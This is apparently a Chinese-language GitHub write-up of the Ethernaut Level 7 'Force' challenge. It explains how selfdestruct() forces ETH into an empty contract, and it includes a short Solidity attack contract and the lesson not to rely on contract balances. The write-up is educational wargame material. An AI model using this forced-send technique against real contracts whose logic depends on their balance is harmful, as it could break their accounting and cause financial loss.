

<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 7 - Force</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 7 - Force](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

题目是一个空的合约，要求向其中转账


## 漏洞

题目给定的合约是完全空的。那么我们如何向它发送eth呢?诀窍是使用(很快就会被弃用) `selfdestruct()`，这是一种将eth强制发送到合约的方法。

当合约自毁时，合约必须将剩余的eth发送到另一个地址。这就是解这道题的方法。我们只需要部署一个自毁的合约，并将其eth发送给`Force` 合约。

## 解答

编写并部署一个攻击合约，攻击合约记录 `Force` 合约的地址，然后并调用 `selfdestruct()` 函数，将攻击合约的eth余额转发给`Force` 。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    Force instance;

    constructor(address fb) {
        instance = Force(fb);
    }

    function attack() public payable {
        selfdestruct(payable(address(instance)));
    }
}
```

## 要点

- `selfdestruct()` 是一种强制向某地址发送eth的方法.
- <b>永远不要依赖合约的余额来实现敏感的逻辑.</b>

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
